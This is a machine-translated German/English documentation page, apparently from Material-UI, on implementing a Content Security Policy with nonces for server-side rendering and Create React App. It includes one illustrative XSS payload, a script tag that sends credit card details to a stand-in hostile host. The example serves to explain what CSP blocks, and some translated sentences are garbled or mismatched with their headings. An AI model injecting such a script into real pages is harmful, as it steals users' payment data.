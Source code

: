 # Inhaltssicherheitsrichtlinie (Content Security Policy, CSP)

<p class="description">This section covers the details of setting up a CSP.</p>

## Wie kann man CSP implementieren?

CSP mitigates cross-site scripting (XSS) attacks by requiring developers to whitelist the sources their assets are retrieved from. Diese Liste wird vom Server als Header zurückgegeben. Angenommen, Sie haben eine Website unter `https://example.com` gehostet. Der CSP-Header `default-src: 'self';` erlaubt alle Assets, die sich unter `https://example.com/*` befinden und blockt alle anderen. Wenn es auf Ihrer Website einen für XSS anfälligen Bereich gibt, in dem nicht eingegebene Benutzereingaben angezeigt werden, könnte ein Angreifer Folgendes eingeben:

```html
<script>
  sendCreditCardDetails('https://hostile.example');
</script>
```

Diese Sicherheitsanfälligkeit ermöglicht es dem Angreifer, irgendetwas auszuführen. Mit einem sicheren CSP-Header lädt der Browser dieses Skript jedoch nicht.

Weitere Informationen zu CSP finden Sie in den [MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).

## Was ist CSP und warum ist es nützlich?

### Server-Side Rendering (SSR)

To use CSP with Material-UI (and JSS), you need to use a nonce. Eine Nonce ist eine zufällig generierte Zeichenfolge, die nur einmal verwendet wird. Daher müssen Sie eine Server-Middleware hinzufügen, um für jede Anforderung eine zu generieren. JSS hat ein [tolles Tutorial](https://github.com/cssinjs/jss/blob/master/docs/csp.md) wie man dies mit Express und React Helmet erreichen kann. Lesen Sie für einen grundlegenden Überblick weiter.

Eine CSP-Nonce ist eine Base 64-codierte Zeichenfolge. Sie können so erstellen:

```js
import uuidv4 from 'uuid/v4';

const nonce = new Buffer(uuidv4()).toString('base64');
```

You must use UUID version 4, as it generates an **unpredictable** string. Sie wenden dann dieses Nonce auf den CSP-Header an. Ein CSP-Header könnte mit der angewendeten Nonce so aussehen:

```js
header('Content-Security-Policy').set(
  `default-src 'self'; style-src: 'self' 'nonce-${nonce}';`,
);
```

You should pass the nonce in the `<style>` tag on the server.

```jsx
<style
  id="jss-server-side"
  nonce={nonce}
  dangerouslySetInnerHTML={{
    __html: sheets.toString(),
  }}
/>
```

Dann müssen Sie dieses Nonce an JSS übergeben, damit es den nachfolgenden &lt;code&gt;&lt;style&gt;&lt;/code&gt;-Tags hinzugefügt werden kann.

Die Art und Weise, wie Sie dies tun, besteht darin, ein `<meta property="csp-nonce" content={nonce} />`Tag im `<head>`ihren HTML-Codes zu Übergebe. JSS wird dann nach einem `<meta property="csp-nonce"`Tag und Suchen den`inhalt` wert als Nonce Verwenden.

Hier ist ein Beispiel, wie ein fiktiver Header aussehen könnte:

```html
<head>
  <meta property="csp-nonce" content="this-is-a-nonce-123" />
</head>
```

### Create React App (CRA)

According to the [Create React App Docs](https://create-react-app.dev/docs/advanced-configuration/), a Create React App will dynamically embed the runtime script into index.html during the production build by default. This will require a new hash to be set in your CSP during each deployment.

To use a CSP with a project initialized as a Create React App, you will need to set the `INLINE_RUNTIME_CHUNK=false` variable in the `.env` file used for your production build. This will import the runtime script as usual instead of embedding it, avoiding the need to set a new hash during each deployment.

